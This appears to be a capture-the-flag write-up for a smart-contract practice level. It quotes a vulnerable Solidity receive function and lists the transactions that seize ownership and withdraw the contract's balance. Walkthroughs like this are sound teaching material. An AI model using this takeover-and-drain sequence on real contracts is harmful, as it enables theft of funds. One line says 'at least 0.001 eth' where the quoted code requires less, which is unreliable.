 ## Objective: 
### 1. You claim ownership of the contract
### 2. You reduce its balance to 0

```
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
  ```
  `receive` needs to be run to take over the contract.
  
  To fulfill this requires us to contribute at least 0.001 eth:
  ```
function contribute() public payable {
    require(msg.value < 0.001 ether);

  ```

  First contribute < 0.001
  ```
  contract.contribute.sendTransaction({ from: player, value: toWei('0.0009')})
  ```

  Once fulfilled the requirement, we send transaction to contract without calling function so to trigger `receive`
  ```
sendTransaction({from: player, to: contract.address, value: toWei('0.000001')})
  ```

  Check if we are owner:
  ```
contract.owner()
// Output: player's address
  ```

Final step withdraw the fund to complete level
```
contract.withdraw()
```
